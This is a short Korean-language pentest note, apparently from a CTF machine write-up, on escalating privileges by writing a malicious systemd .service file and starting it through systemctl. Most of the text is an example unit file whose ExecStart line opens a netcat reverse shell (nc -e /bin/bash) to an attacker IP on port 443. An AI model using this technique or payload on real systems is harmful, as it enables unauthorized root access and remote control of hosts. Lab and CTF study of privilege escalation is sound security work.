 # Systemctl

서비스는 .service 파일로 정의됨, Systemctl을 사용하여 systemd에 연결한 다음 다시 사용하여 서비스를 시작, 서비스가 수행하는 작업은  .service 파일에 의해 정의됨&#x20;

즉 systemctl이 있을 경우 악성코드가 담긴 .service 파일을 만든다음 실행을 하면 권한 상승 가능&#x20;

예제

```bash
pepper@jarvis:/dev/shm$ cat >0xdf.service<<EOF
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.28 443'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target
EOF
```
